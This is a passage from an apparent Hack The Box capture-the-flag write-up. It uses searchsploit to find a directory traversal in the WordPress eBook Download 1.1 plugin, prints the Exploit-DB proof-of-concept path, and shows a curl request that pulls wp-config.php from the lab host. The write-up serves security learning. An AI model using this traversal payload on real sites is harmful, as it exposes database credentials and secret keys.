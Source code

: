 ```sh
┌──(root💀kali)-[~/htb/backdoor]
└─# searchsploit ebook download
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal     | php/webapps/39575.txt
-------------------------------------------------------------- ---------------------------------
```

Let's check it out:

```sh
┌──(root💀kali)-[~/htb/backdoor]
└─# searchsploit -m php/webapps/39575.txt
  Exploit: WordPress Plugin eBook Download 1.1 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/39575
     Path: /usr/share/exploitdb/exploits/php/webapps/39575.txt
File Type: ASCII text

Copied to: /root/39575.txt

┌──(root💀kali)-[~/htb/backdoor]
└─# cat 39575.txt 
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
```

## Exploiting Plugin

So we have simple directory traversal and local file inclusion (LFI) vulnerabilities. Let's try the example given above:

```php
┌──(root💀kali)-[~/htb/backdoor]
└─# curl http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
<SNIP>
```